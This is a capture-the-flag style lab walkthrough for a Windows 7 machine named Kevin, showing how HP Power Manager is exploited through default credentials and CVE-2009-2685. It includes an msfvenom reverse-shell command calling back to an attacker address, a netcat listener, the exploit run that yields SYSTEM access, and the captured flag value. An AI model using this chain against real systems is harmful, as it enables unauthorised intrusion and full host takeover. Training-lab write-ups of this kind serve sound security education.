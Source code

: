 # Kevin - Windows 7 Exploitation Walkthrough

This is a full exploitation walkthrough for the Kevin lab machine running Windows 7 Ultimate. The objective was to gain SYSTEM-level access by exploiting a vulnerable web application and capturing the administrator flag.

## Target Information

IP Address: 192.168.232.45  
Operating System: Windows 7 Ultimate N  
Hostname: KEVIN  
Workgroup: WORKGROUP  
Exposed Application: HP Power Manager (GoAhead WebServer)

## Enumeration

Performed an initial Nmap scan:

nmap -T4 -A 192.168.232.45 -oN nmap

Identified ports:
- 80 (HTTP - HP Power Manager)
- 135 (RPC)
- 139, 445 (SMB)
- 3389 (RDP)
- 49152–49159 (MSRPC dynamic ports)

Navigated to: http://192.168.232.45  
Observed HP Power Manager login page.

Default credentials used:  
Username: admin  
Password: admin

## Exploitation - HP Power Manager RCE

Searched for known exploits using Searchsploit:

searchsploit HP Power Manager  
searchsploit -m 10099.py

Confirmed vulnerability: CVE-2009-2685 — Remote Code Execution via formExportData.php.

## Reverse Shell Payload

Generated a reverse shell payload using msfvenom:

msfvenom -p windows/shell_reverse_tcp LHOST=192.168.45.158 LPORT=80 ^
-b "\x00\x3a\x26\x3f\x25\x23\x20\x0a\x0d\x2f\x2b\x0b\x5c\x3d\x3b\x2d\x2c\x2e\x24\x25\x1a" ^
-e x86/alpha_mixed -f c

Inserted the payload into the SHELL variable inside the 10099.py exploit script.

## Gaining Shell Access

Started a Netcat listener:

rlwrap nc -nlvp 80

Executed the exploit:

python2.7 10099.py 192.168.232.45

Received a reverse shell as:

NT AUTHORITY\SYSTEM

## Captured Flag

Navigated to:

C:\Users\Administrator\Desktop\proof.txt

Flag:

f9267403b0baf51ae5c66c6d55fd72de

## Tools Used

- nmap  
- searchsploit  
- msfvenom  
- python2.7  
- netcat (nc)  
- rlwrap

## Summary

- Performed reconnaissance to discover running services  
- Logged into HP Power Manager using default credentials  
- Exploited RCE vulnerability (CVE-2009-2685)  
- Gained SYSTEM-level reverse shell  
- Captured the final flag from Administrator’s desktop

## Author

Farhanahmad Quraishi
